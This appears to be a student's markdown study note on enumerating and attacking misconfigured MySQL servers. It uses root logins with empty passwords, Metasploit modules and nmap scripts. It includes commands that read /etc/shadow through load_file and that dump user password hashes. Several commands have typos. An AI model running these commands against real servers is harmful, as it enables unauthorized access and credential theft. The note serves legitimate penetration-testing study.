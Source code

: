 <mark style="background: #BBFABBA6;">MySQL</mark> is the most common open database that runs on some kind of linux 
+ Very often misconfigured and vulnerable 

Can <mark style="background: #ADCCFFA6;">login</mark> using the `mysql` keyword
+ Example: `mysql -h 192.94.79.3 -u root`
	+ where root is the most common 
+ can <mark style="background: #ADCCFFA6;">look at the databases</mark> with a `show databases;`
+ can <mark style="background: #ADCCFFA6;">dig into each database</mark> by using `use DBNAME`
	+ in there can see tables with `show tables`
+ can <mark style="background: #ADCCFFA6;">dig into a table</mark> with `select * from TABLENAME`
+ can <mark style="background: #ADCCFFA6;">get a file</mark> via `select load_file("/etc/shadow");`
	+ notice the above is `etc/shadow` which will have info about users and services

<mark style="background: #FF5582A6;">msfconcole</mark>
+ <mark style="background: #ADCCFFA6;">mysql_writeable_dirs</mark>
	+ `use auxiliary/scanner/mysql/mysql_writable_dirs``
		+ will want to `set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt`
		+ and `setg rhost IP` to make a global rhost`
		+ can also `set verbose false`
		+ `set password ""`
	+ Will show what directories can be written to
+ <mark style="background: #ADCCFFA6;">mysql_hashdump</mark>
	+ use auxiliary/scanner/mysql/mysql_hashdump`
	+ Will give a lot of hashes for different users

<mark style="background: #FFB86CA6;">--script=mysql_empty-password</mark>
+ A nmap script to <mark style="background: #ADCCFFA6;">see if there are any empty passwords accounts</mark>
+ Example: `nmap IP -p 3306 --script=mysql_empty-password`

<mark style="background: #FFB86CA6;">--script=mysql-info</mark>
+ Gets <mark style="background: #ADCCFFA6;">info like version number, capabilities</mark>
+ Example: `nmap IP -p 3306 --script=mysql-info`

<mark style="background: #FFB86CA6;">--script=mysql-users</mark>
+ Gets <mark style="background: #ADCCFFA6;">users</mark> 
+ Example: `nmap IP -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"`

<mark style="background: #FFB86CA6;">--script=mysql-databases</mark>
+ See <mark style="background: #ADCCFFA6;">available databases</mark>
+ Example: `nmap IP -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"`

<mark style="background: #FFB86CA6;">--script=mysql-variables</mark>
+ See how to interact with it, most usefully is data directory to see where the <mark style="background: #ADCCFFA6;">variables</mark> are being stored `datadir:`
+ Example: `nmap IP -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"`

<mark style="background: #FFB86CA6;">--script=mysql-audit</mark>
+ <mark style="background: #ADCCFFA6;">audit the setup</mark>
+ Example: `nmap IP -p 3306 --script=mysql-audit --script-args="mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nselib/data/mysql-cis.audit"`

<mark style="background: #FFB86CA6;">--script=mysql-dump_hashes</mark>
+ <mark style="background: #ADCCFFA6;">dump hashes</mark>
+ Example: `nmap IP -p 3306 --script=mysql-dump_hashes --script-args="username='root',password=''"`
